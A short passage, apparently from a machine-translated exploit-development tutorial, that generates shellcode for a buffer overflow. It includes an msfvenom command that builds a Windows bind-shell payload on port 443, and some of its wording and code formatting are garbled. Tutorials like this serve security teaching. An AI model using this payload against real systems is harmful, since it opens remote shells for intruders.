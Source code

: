 ![](img/30cd0c6764083814784bf96da10df478.png)

## MSF 毒液结合壳

现在我们有大约 2000+的自由空间来放置我们的外壳代码。引入 bind shell 的空间会很大。让我们使用`msfvenom`来创建我们的外壳代码。

```
**### msfvenom Bind Shell**
$ msfvenom -p windows/shell_bind_tcp LPORT=443 -b '\x00' EXITFUNC=thread -f python*(*I used a x86 Kali Linux to create the shellcode)*
```
